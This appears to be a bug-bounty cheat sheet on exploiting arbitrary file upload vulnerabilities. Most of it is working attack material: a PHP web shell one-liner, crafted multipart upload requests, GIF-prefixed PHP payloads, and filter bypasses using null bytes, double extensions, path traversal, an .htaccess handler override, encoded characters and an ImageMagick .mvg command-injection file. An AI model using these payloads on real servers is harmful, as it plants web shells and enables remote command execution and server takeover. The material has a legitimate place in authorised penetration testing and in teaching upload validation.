 # Arbitrary File Upload

## Introduction
An arbitrary file upload vulnerability is a type of security flaw that allows an attacker to upload malicious files onto a server.
`<?php echo system($_GET['command']); ?>` => ur shell file 

## Where to find
In upload file feature, for example upload photo profile feature

## How to exploit
1. Change the `Content-Type` value
```
POST /images/upload/ HTTP/1.1
Host: target.com
...

---------------------------829348923824
Content-Disposition: form-data; name="uploaded"; filename="dapos.php"
Content-Type: application/x-php
```
Change the Content-Type
```
POST /images/upload/ HTTP/1.1
Host: target.com
...

---------------------------829348923824
Content-Disposition: form-data; name="uploaded"; filename="dapos.php"
Content-Type: image/jpeg
```

2. Try to change the extension when send the request, for example in here you cant upload file with ext php but you can upload jpg file
```
POST /images/upload/ HTTP/1.1
Host: target.com
...

---------------------------829348923824
Content-Disposition: form-data; name="uploaded"; filename="dapos.php.jpg"
Content-Type: application/x-php
```
Change the request to this
```
POST /images/upload/ HTTP/1.1
Host: target.com
...

---------------------------829348923824
Content-Disposition: form-data; name="uploaded"; filename="dapos.php"
Content-Type: application/x-php
```

3. Upload the payload, but start with GIF89a; and
```
POST /images/upload/ HTTP/1.1
Host: target.com
...

---------------------------829348923824
Content-Disposition: form-data; name="uploaded"; filename="dapos.php"
Content-Type: image/gif

GIF89a; <?php system("id") ?>
```
And don't forget to change the content-type to image/gif

4. Bypass content length validation, it can be bypassed using small payload
```
(<?=`$_GET[x]`?>)
```

5. Using null byte in filename
```
file.php%00.gif
```

6. Using double extensions for the uploaded file
```
file.jpg.php
```

7.  Uploading an unpopular php extensions (php4,php5,php6,phtml)
```
file.php5
```

8. Try to randomly capitalizes the file extension
```
file.pHP5
```
10. include directory traversal sequence (uploaded to a higher directory in the filesystem)
```
Content-Disposition: form-data; name="avatar"; filename="..%2fexploit.php"
- hint => use the LFI techniques to bypass the dir traversal protection
GET /files/avatars/..%2fexploit.php
```
11. If php files are blacklisted ? 
	 - upload first a conf file that allows u to execute php files 
		- upload .htaccess file that have the following contnet `AddType application/x-httpd-php ".test"`
		- this means if u upload a .test file, it will be treated as .php file
		- upload ur .test shell file 
12. Add trailing Chars 
```
exploit.php.
```
13. Try using the URL encoding (or double URL encoding) for dots, forward slashes, and backward slashes.
```
exploit%2Ephp
```
14. Add semicolons before the file extensions
```
exploit.php;.jpg
```
15. multibyte unicode characters `xC0 x2E`, `xC4 xAE` or `xC0 xAE`
```
exploit%xC0%x2Ephp
exploit%xC4%xAEphp
exploit%xC0%xAEphp
```
16. dividing the function name into sections between each
```
URL?cmd=(sy.(st).em)(whoami);
```
17. Exploit .MVG files, upload a .mvg file with the following content
```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://example.com/image.jpg";|ls "-la)'
pop graphic-context
```